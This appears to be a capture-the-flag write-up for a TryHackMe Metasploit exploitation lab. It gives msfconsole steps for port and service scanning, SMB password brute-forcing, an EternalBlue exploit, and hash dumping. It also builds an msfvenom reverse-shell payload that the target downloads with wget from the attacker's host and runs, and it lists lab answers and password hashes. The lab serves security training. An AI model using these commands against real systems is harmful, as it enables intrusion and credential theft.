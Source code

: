 ```yaml
---
msf:
  - "Metasploit: Exploitation"
Date: 12 April 2024
Platform: metasploit
Category: paid
Difficulty: easy
tags:
  - THM
Status: solve
IP: 10.10.186.136
---
```

# Metasploit: Exploitation 
---
description: Using Metasploit for scanning, vulnerability assessment and exploitation.
	[link of the room](https://tryhackme.com/room/metasploitexploitation)

## Task 2 Scanning

#### How many ports are open on the target system?

```bash
msfconsole
msf > search portscan
msf > use 5
msf > setg RHOSTS 10.10.186.136
msf > run
```
![[msfconsole.png]]
![[portscan.png]]

![[porscanresult.png]]
#### Using the relevant scanner, what NetBIOS name can you see?

```bash
msf > search netbios
msf > use 2
msf > run
```
![[netbios.png]]
![[netbios_result.png]]
`ACME IT SUPPORT`
#### What is running on port 8000?

```bash
msf > search http_version
msf > show options
msf > use 0
msf > set RHOST 10.10.186.136
msf > set RPORT 8000
msf > run
```
![[search_http.png]]
![[httpnmap.png]]

`webfs/1.21`
#### What is the "penny" user's SMB password?

```bash
msf > search smb_login
msf > use 0
msf > set RHOSTS 10.10.186.136
msf > set SMBUser penny
msf > set PASS_FILE MetasploitWordlist-1632491116676.txt
msf > run
```
![[search_smb_login.png]]
![[smb_login.png]]
![[smbbruteforce.png]]
`leo1234`
## Task 4 Vulnerability Scanning

#### Who wrote the module that allows us to check SMTP servers for open relay?

```bash
msf > search smtp relay
msf > use 0
msf > info
```
![[smtp_relay.png]]
## Task 5 Exploitation

#### Exploit one of the critical vulnerabilities on the target VM

```bash
msfconsole
msf > search eternalblue 
msf > use 0
msf > set RHOSTS 10.10.5.180
msf > set LHOST 10.8.45.125
msf > run
```

![[search_eternalblue.png]]
![[run_blue.png]]
#### What is the content of the flag.txt file?

```bash
meterpreter > search -d C:\\ -f flag.txt
meterpreter > cat 'C:\Users\Jon\Documents\flag.txt'
```

`THM-5455554845`
#### What is the NTLM hash of the password of the user "pirate"?

```bash
hashdump
```

`8ce9a3ebd1647fcc5e04025019f4b875`
## Task 6 Msfvenom

#### Launch the VM attached to this task. The username is murphy, and the password is 1q2w3e4r. You can connect via SSH or launch this machine in the browser. Once on the terminal, type "sudo su" to get a root shell, this will make things easier.

```bash
ssh murphy@10.10.223.208
sudo -l
sudo su -
```
#### Create a meterpreter payload in the .elf format.
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
```
![[shell.png]]
#### Transfer it to the target machine

```bash
python -m http.server
```

![](share.png)
### Download malicious file from attacker side

~~~bash
wget http://10.8.45.125:8000/rev_shell.elf
~~~

![](transfer.png)
#### Get a meterpreter session on the target machine.
```bash
chmod +x shell.elf
./shell.elf
```
![](chmod.png)
```bash
msf > use exploit/multi/handler
msf > set payload linux/x86/meterpreter/reverse_tcp
msf > set LHOST 10.8.45.125
msf > run
```
![[metas.png]]
#### Use a post exploitation module to dump hashes of other users on the system.

```bash
meterpreter > run post/linux/gather/hashdump
```

 
![](hashdump.png)
#### What is the other user's password hash?
```
$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0:18851
```
